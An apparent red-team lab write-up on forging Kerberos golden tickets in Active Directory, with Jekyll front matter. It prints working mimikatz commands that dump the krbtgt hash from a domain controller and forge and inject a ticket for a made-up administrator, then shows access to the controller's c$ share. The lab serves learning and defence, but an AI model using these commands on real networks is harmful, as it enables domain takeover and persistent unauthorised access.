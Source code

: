 ```yaml
---
layout: post
title: "kerberos golden tickets"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


---
description: Persistence and Privilege Escalation with Golden Kerberots tickets
---

# Kerberos: Golden Tickets

This lab explores an attack on Active Directory Kerberos Authentication. To be more precise - an attack that forges Kerberos Ticket Granting Tickets \(TGT\) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service \(TGS\) tickets, which means a forged TGT can get us any TGS ticket - hence it's golden.

This attack assumes a Domain Controller compromise where `KRBTGT` account hash will be extracted which is a requirement for a successful Golden Ticket attack.

## Execution

Extracting the krbtgt account's password `NTLM` hash:

{% code title="attacker@victim-dc" %}
```csharp
mimikatz # lsadump::lsa /inject /name:krbtgt
```
{% endcode %}

![](../../.gitbook/assets/kerberos-golden-krbtgt-hash.png)

Creating a forged golden ticket that automatically gets injected in current logon session's memory:

{% code title="attacker@victim-workstation" %}
```text
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```
{% endcode %}

![](../../.gitbook/assets/kerberos-golden-create.png)

Checking if the ticket got created:

![](../../.gitbook/assets/kerberos-golden-klist.png)

Opening another powershell console with low privileged account and trying to mount a `c$` share of `pc-mantvydas` and `dc-mantvydas` - not surprisingly, returns access denied:

![](../../.gitbook/assets/kerberos-golden-denied.png)

However, switching back to the console the attacker used to create the golden ticket \(local admin\) and again attempting to access `c$` share of the domain controller - this time is a success:

![](../../.gitbook/assets/kerberos-golden-granted.png)

## Observations

![](../../.gitbook/assets/kerberos-golden-logon.png)

![](../../.gitbook/assets/kerberos-golden-share.png)

## References

{% embed url="https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/" %}

{% embed url="https://adsecurity.org/?p=1515" %}
@spotheplanet
